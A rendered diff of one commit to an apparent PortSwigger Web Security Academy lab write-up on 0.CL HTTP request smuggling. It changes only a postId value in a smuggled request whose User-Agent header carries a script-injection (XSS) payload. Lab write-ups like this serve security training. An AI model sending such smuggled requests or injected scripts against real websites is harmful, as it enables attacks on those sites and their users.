

Before and after one commit to nu11secur1ty/PortSwigger-Web-Security-Academy, a Markdown page: Intruder/0.CL-request-smuggling-3POST-Intruder/README.MD, the part around the change. GitHub-like rendering.

````diff
--- a/Intruder/0.CL-request-smuggling-3POST-Intruder/README.MD
+++ b/Intruder/0.CL-request-smuggling-3POST-Intruder/README.MD
@@ -117,7 +117,7 @@ The attack consists of three stages:
 - **Smuggled Request:**
 
 ```http
-GET /post?postId=10 HTTP/1.1
+GET /post?postId=7 HTTP/1.1
 User-Agent: yu5md"><script>alert(1)</script>hgpov
 user-agent: yu5md"><script>alert(1)</script>hgpov
 X: Y
````
